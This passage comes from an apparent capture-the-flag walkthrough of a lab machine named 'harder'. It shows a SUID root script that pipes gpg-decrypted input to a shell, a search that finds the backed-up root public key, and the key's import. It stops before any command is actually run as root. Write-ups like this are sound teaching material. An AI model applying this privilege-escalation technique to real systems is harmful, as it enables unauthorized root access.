 ```sh
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

## Execute the program as root (SUID)

We can confirm that the program executes as root:

~~~
harder:/tmp$ /usr/local/bin/execute-crypted 
[*] Current User: root
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
~~~

Let's search for the GPG root key.

~~~
harder:~$ find / -type f -name "root@harder.local*" 2>/dev/null
/var/backup/root@harder.local.pub
harder:~$ cat /var/backup/root@harder.local.pub 
-----BEGIN PGP PUBLIC KEY BLOCK-----

mDMEXwTf8RYJKwYBBAHaRw8BAQdAkJtb3UCYvPmb1/JyRPADF0uYjU42h7REPlOK
AbiN88i0IUFkbWluaXN0cmF0b3IgPHJvb3RAaGFyZGVyLmxvY2FsPoiQBBMWCAA4
FiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwMFCwkIBwIGFQoJCAsCBBYC
AwECHgECF4AACgkQyR1mFZRPaHSt8wD8CvJLt7qyCXuJZdOBPR+X7GI2dUg0DRRu
c5gXzwk3rMMA/0JK6ZwZCHObWjwX0oLc3jvOCgQiIdaPq1WqN9/fhLAKuDgEXwTf
8RIKKwYBBAGXVQEFAQEHQNa/To/VntzySOVdvOCW+iGscTLlnsjOmiGaaWvJG14O
AwEIB4h4BBgWCAAgFiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwwACgkQ
yR1mFZRPaHTMLQD/cqbV4dMvINa/KxATQDnbaln1Lg0jI9Jie39U44GKRIEBAJyi
+2AO+ERYahiVzkWwTEoUpjDJIv0cP/WVzfTvPk0D
=qaa6
-----END PGP PUBLIC KEY BLOCK-----
~~~

Luckily for us, there is a backup of the public key; let's import it:

~~~
harder:~$ gpg --import /var/backup/root@harder.local.pub 
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
~~~
